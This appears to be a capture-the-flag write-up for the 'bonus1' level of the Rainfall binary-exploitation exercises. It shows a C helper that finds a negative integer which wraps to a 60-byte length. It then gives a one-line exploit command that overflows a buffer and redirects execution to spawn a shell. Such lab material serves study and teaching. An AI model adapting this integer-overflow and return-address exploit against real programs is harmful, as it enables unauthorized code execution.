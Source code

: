 # Bonus1

Let's see to the binary

![](/Users/a19523132/school/Rainfall/bonus1/Ressources/img/bonus1_launch.png)

Seem, this program waits two numbers lower than 10 as input and prints them. Let's use [gdb](Ressources/gdb.md) to understand what's going on. 

We need to exploit the overflow property of `atoi` to give us more bytes to copy with `memcpy`. 
As seen in the analysis, the buffer has an offset of `56` bytes, but we need to pass the check which need our input to be less than `10`. 

In order to do this, we need to find a negative number that by underflow gives back a large enough positive number.

    #include <cstdio>
    
    int main()
    {
        int input = 0;
    
        for (int result = 0; result <= 0 || result > 64; --input)
        {
            result = input * 4;
        }
    
        printf("input = %d\n", input);
    }

This program outputs us a potential input which is `-1073741809` which gives us `60` after the multiplication and underflow (`56` offset bytes + `4` bytes for a potential address)

Now, all we have to do is to find an address `0x08048482` to re-route the program to spawn a shell since there is a built-in way to do so

`./bonus1 -1073741809 $(python -c "print '\x90' * 56 + '\x08\x04\x84\x82'[::-1]")`

![](/Users/a19523132/school/Rainfall/bonus1/Ressources/img/bonus2.png)
